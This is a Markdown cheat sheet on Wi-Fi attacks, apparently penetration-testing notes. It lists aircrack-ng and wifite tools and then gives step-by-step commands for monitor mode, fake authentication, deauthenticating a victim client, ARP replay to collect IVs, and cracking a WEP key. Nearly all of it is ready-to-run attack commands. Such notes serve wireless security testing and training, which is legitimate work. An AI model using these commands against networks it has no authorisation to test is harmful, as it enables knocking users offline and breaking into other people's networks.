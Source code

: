 # Wifi - Basics

## Tools

* [aircrack-ng/aircrack-ng](https://github.com/aircrack-ng/aircrack-ng) - WiFi security auditing tools suite
* [kimocoder/wifite2](https://github.com/kimocoder/wifite2) - Rewrite of the popular wireless network auditor, "wifite" - original by @derv82
* [derv82/wifite2](https://github.com/derv82/wifite2) - Rewrite of the popular wireless network auditor, "wifite" 
* [derv82/wifite](https://github.com/derv82/wifite) - Wifite is an automated wireless attack tool.


## Linux Wireless Basics

```powershell
AP_MAC="XX:XX:XX:XX:XX"       # BSSID
VICTIM_MAC="XX:XX:XX:XX:XX"   # VIC
ATTACKER_MAC="XX:XX:XX:XX:XX" # MON
AP_SSID="wifibox"             # ESSID
SRC_ADDR="192.168.1.1"
DST_ADDR="192.168.1.255"
```

```powershell
# driver install
apt install realtek-rtl88xxau-dkms

# network card recon
iwconfig
iw list
dmesg | grep 8187 # alfa card

# Increase Wi-Fi TX Power
iw reg set B0
iwconfig wlan0 txpower <NmW|NdBm|off|auto> # txpower is 30 (usually)

# find SSID and channel
iw dev wlan0 scan | grep SSID
iw dev wlan0 scan | egrep "DS\ Parameter\ set|SSID"
iwlist wlan0 scanning | egrep "ESSID|Channel"

# monitor mode - start
airmon-ng start wlan0
airmon-ng start wlan0 3 # only on a particular channel e.g: 3
    * Manual 1: iw dev wlan0 interface add mon0 type monitor
    * Manual 2: iwconfig wlan0 mode monitor channel 3
ifconfig mon0 up
# monitor mode - stop
airmon-ng stop mon0
    * Manual 1: iw dev wlan0 interface del mon0 
    * Manual 2: iwconfig wlan0 mode managed
```


## Aircrack-ng Essentials

```powershell
# check and kill processes that could interfere with our monitor mode
airmon-ng check
airmon-ng check kill
# pkill dhclient; pkill wpa_supplicant; pkill dhclient3

# list AP
airodump-ng mon0
airodump-ng mon0 -c 3 # only on a particular channel e.g: 3
airodump-ng mon0 -c 3 --bssid $AP_MAC -w clearcap # dump traffic

# get our macaddress
macchanger -s mon0 
macchanger --show mon0

# replay and accelerate traffic
aireplay-ng
    * -i interface
    * -r file.pcap

# check aireplay card compatibility
aireplay-ng -9 mon0 -> test injection
aireplay-ng -9 -i wlan1 mon0 -> test card to card injection

# injection rate
iwconfig wlan0 rate 1M

# Aircrack compatibility
http://www.aircrack-ng.org/doku.php?id=compatibility_drivers#list_of_compatible_adapters
Alfa AWUS036H / TPLink WN722
```


### Fake authentication attack

:warning: use it before each attack

```powershell
airodump-ng -c 3 --bssid $AP_MAC -w wep1 mon0

# fake authentication = no arp
aireplay-ng -1 0 -e AP_SSID -b $AP_MAC -h $ATTACKER_MAC mon0
    * Might need a real $ATTACKER_MAC, observe traffic using airodump
	> Association successful! :-)

# fake authentication for picky AP
# Send keep-alive packets every 10 seconds
aireplay-ng -1 6000 -o 1 -q 10 -e <ESSID> -a <AP MAC> -h <Your MAC> <interface>

# might need to fake your MAC ADDRESS first
```


### Deauthentication attack

> Force ARP packet to be sent.

```powershell
aireplay-ng -0 1 -a $AP_MAC -c $VICTIM_MAC mon0
    * -0 : 1 deauthentication, 0 unlimited
	> Sending 64 directed DeAuth.
```


### ARP Replay Attack

Video: wifu-20.mp4 The attack listens for an ARP packet and then retransmits it back to the access point. This, in turn, causes the AP to repeat the ARP packet with a new IV. By collecting enough of these IVs Aircrack-ng can then be used to crack the WEP key.

```powershell
aireplay-ng -3 -b $AP_MAC -h $ATTACKER_MAC mon0
	* ATTACKER_MAC if fake authentication launched
	* CONNECTED_MAC if a client is associated

# –x 1000 –n 1000 ?
# aireplay-ng -3 –x 1000 –n 1000 –b $AP_MAC -h $ATTACKER_MAC wlan0mon
# wait for ARP on the network
# alternatively you can de-auth some clients

aircrack-ng –b <BSSID> <PCAP_of_FileName>
aircrack-ng -0 wep1.cap
    * -0 : colored output
```


## References

* [Wireless Penetration Testing Cheat Sheet [UPDATED – 2022]](https://uceka.com/2014/05/12/wireless-penetration-testing-cheat-sheet/)
* [Aireplay 0841 Attack – Introduction](https://www.doyler.net/security-not-included/aireplay-0841-attack)